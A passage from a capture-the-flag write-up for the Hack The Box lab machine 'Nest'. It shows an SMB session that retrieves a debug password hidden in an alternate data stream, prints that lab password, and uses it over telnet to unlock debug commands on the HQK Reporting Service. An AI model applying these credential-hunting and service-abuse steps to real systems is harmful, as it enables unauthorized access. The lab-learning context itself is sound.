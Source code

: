 ```ruby 
smb: \C.Smith\HQK Reporting\> get "Debug Mode Password.txt:Password"
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt:Password of size 15 as Debug Mode Password.txt:Password (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
smb: \C.Smith\HQK Reporting\> 
```

* and here is the password for debug mode : **WBQ201953D8w**

* i downloaded all the files in this directory.

* The XML file contains the following information.

```ruby

<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="h>
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>

```
* It appears to be a configuration file for the service running on port 4386 that we came across
earlier. Let's connect to this service.

```ruby 

xdev05@XDev05:~/Documents/HTB/Nest$ telnet 10.10.10.178 4386
Trying 10.10.10.178...
Connected to 10.10.10.178.
Escape character is '^]'.

HQK Reporting Service V1.2

help

This service allows users to run queries against databases using the legacy HQK format

--- AVAILABLE COMMANDS ---

LIST
SETDIR <Directory_Name>
RUNQUERY <Query_ID>
DEBUG <Password>
HELP <Command>


```
* this service allows us to run queries against a database.

```ruby 

debug WBQ201953D8w

Debug mode enabled. Use the HELP command to view additional commands that are now available

```
* The DEBUG command gives us access to a few more commands, namely SERVICE , SESSION and
SHOWQUERY .
